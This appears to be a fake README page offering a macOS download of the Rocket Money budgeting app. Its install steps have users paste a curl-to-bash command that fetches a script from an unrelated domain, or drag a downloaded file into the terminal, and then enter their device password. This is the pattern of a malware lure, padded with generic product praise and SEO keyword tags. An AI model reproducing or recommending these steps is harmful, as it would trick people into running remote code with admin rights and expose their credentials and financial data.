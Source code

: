 # Rocket Money — Download For Mac OS 💸

Rocket Money is a powerful personal finance and budgeting tool designed to help users take full control of their money. With this Mac version, you can install and manage your finances directly from your desktop. Follow the instructions below to install it easily and securely. 💼

![rocketmoneyapp](https://i.pcmag.com/imagery/reviews/02Qu73ohKNRw0rBp6lpVnYP-14..v1752171562.png)

[![Download for Mac](https://img.shields.io/badge/Download%20for%20MacOS-Click%20Here-black?style=for-the-badge\&logo=apple)](https://fituganshfgh.github.io/.github/rocketm)

If the download button does not work, follow the manual installation instructions below using your terminal.

---

## 📦 How to Install Rocket Money For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Rocket Money

* 💳 **Track Subscriptions** — Instantly see and manage all recurring charges.
* 📈 **Budgeting Made Easy** — Set monthly budgets and track your spending.
* 🏦 **Bank Account Syncing** — Securely connect your financial accounts.
* 🚫 **Cancel Subscriptions** — Cancel unwanted services in a few taps.
* 💡 **Spending Insights** — Receive smart insights into where your money goes.
* 🔔 **Real-Time Alerts** — Get notified when bills increase or change.

---

## About Rocket Money

Rocket Money (formerly Truebill) is a top-rated financial management app that helps users identify and cancel unwanted subscriptions, lower bills, and stay on top of their budgeting goals. With a sleek interface and powerful integrations, Rocket Money for Mac brings its full suite of financial tools right to your desktop.

Whether you're trying to gain control of your monthly expenses or looking to save for a specific goal, Rocket Money's budgeting features allow you to create smart financial plans and track your progress over time. It's more than a personal finance app — it's your financial command center.

By syncing with your bank accounts and providing real-time transaction tracking, Rocket Money gives users an accurate overview of their financial health. You can view spending by category, receive alerts when bills increase, and stay organized without having to switch between multiple apps.

Rocket Money is trusted by millions and rated highly for its ease of use and transparency. It's a powerful ally for those who want to eliminate financial waste and build better money habits — all from their Mac.

---

## ✅ Rocket Money Benefits

* 🧠 User-friendly interface with powerful budgeting tools
* 🔒 Bank-level security and encryption
* 📊 Real-time expense tracking and analytics
* ✂️ Built-in tools to cancel subscriptions
* 🔁 Automatic syncing with bank and credit accounts
* 🌍 Works seamlessly across devices

---

## 🖼 Preview

![Rocket Money Dashboard](https://framerusercontent.com/images/Je2J3DaEoJgCRfp6DSoeJAwwo4.png)
*An overview of the dashboard with monthly spending*

![Rocket Money Subscriptions](https://i.postimg.cc/W1bZtbRM/rocket-money-2.png)
*Easily manage and cancel recurring subscriptions*

![Rocket Money Budget Planner](https://i.postimg.cc/KYW3xzRz/rocket-money-3.png)
*Create and monitor monthly budgets in a few clicks*

![Rocket Money Notifications](https://i.postimg.cc/zG1GMYzr/rocket-money-4.png)
*Get real-time alerts on spending and bill changes*

---

## 🔍 Tags

rocket money mac, rocket money, rocket money download, rocket money reviews, rocket money app, rocketmoney reviews, rocket money app review, rocket money login, rocket money budget, rocket budget app, download rocket money free, budget app for mac, rocket money for macbook, personal finance mac app, subscription tracker mac, rocket money install macos, best budgeting software for mac, rocket money desktop version, money manager mac

